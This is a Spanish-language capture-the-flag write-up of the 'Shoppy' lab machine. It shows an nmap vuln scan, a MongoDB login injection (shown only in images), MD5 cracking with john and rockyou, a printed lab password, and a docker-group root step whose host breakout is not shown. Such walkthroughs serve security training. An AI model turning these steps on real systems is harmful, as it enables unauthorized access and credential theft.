 # ShoppyWriteup

~~~
nmap -v -sS -oX vulnerabilidades.xml --stylesheet=https://svn.nmap.org/nmap/docs/nmap.xsl --script=vuln 10.10.11.180
~~~

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/ad5c508c-f85f-4d92-b859-11c3451bac18)

Nmap nos dice que está el puerto 80, entonces entramos y hay un login
Pero antes editamos los hosts para entrar

~~~
sudo nano /etc/hosts
~~~
![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/e4f934a0-984a-4c91-8c00-611e6a36803d)

Ahora si entramos y calamos un slq injection básico

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/f42fa178-2421-4231-a7cd-5b3e4498be26)

Usamos sqlinjection

Pero no jala con la normal, investigamos y descubrimos

Esta es mongo

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/e51aa0d8-1f93-4366-b71a-e80a3e255367)

Entramos y vemos admin

Sacamos la contra que esta con md5, esa es la de admin, falta de le josh que es otro user

~~~
┌──(kali㉿kali)-[~]
└─$ sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.md5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-11-01 21:44) 0g/s 20787Kp/s 20787Kc/s 20787KC/s  fuckyooh21..*7¡Vamos!

~~~

## Escalar privilegios

Vemos un password manager

~~~
jaeger@shoppy:/home/deploy$ sudo -u  deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ cat cred
cat: cred: No such file or directory
$ cat creds.txt
Deploy Creds :
username: deploy
password: Deploying@pp!
~~~

Conseguimos las creds

Corremos con docker

~~~       
$ docker run -di --name flast101 alpine:latest
53d650ce3ac0a77c2516cf21fc171f2ed443779bb1a8112a7ba05931edbf1bc9
$ docker exec -ti flast101 sh
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # whoami
root
~~~

Listo


